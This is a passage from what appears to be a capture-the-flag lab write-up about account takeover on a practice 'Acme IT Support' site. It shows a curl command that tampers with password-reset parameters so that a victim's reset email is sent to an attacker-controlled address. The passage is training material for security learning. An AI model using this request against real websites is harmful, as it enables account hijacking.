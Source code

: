 ```html
...
```

To proceed, we create an account on the Acme IT Support website, giving us an unique email address to create support tickets.

![Acme IT Support account](./img/acme_account.png "Acme IT Support account")

Now, we can redirect the password reset email to our account to view its contents. We make the request using `curl`:

```sh
~$ curl 'http://<WEBSITE_ADDRESS>/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=hacker@customer.acmeitsupport.thm'
```

![Acme IT Support retrieved ticket](./img/acme_redirect_success.png "Acme IT Support retrieved ticket")
